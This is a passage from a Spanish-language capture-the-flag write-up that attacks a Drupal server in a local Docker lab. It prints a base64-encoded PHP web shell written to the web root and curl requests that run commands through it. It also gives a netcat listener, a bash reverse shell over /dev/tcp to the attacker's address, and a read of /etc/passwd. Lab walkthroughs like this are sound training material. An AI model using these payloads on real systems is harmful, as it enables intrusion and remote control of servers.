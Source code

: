```bash
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://172.17.0.2/drupal/shell.php' -d 'c=hostname'
982f46e160bb>> 
```

Nos indica la ruta donde esta nuestro archvio malicioso e nos indica bajo que parametro podemos ejecutar comando: **c**:
```bash
[i] Fake PHP shell:   curl 'http://172.17.0.2/drupal/shell.php' -d 'c=hostname'
```

Comprobamos el **RCE** para ver si podemos ejecutar comando de manera exitosa:
```bash
http://172.17.0.2/drupal/shell.php?c=whoami

www-data # RCE
```
### Intrusion
Ahora que tenemos **RCE** nos ponemos en escucha en nuestra maquina de atacante:
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
172.17.0.2/drupal/shell.php?c=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
Enumeramos a los usuarios del sistema
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
ballenita:x:1000:1000:ballenita,,,:/home/ballenita:/bin/bash
```

### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Sabiendo que estamos en esta ruta
```bash
982f46e160bb>> pwd
/var/www/html/drupal
```
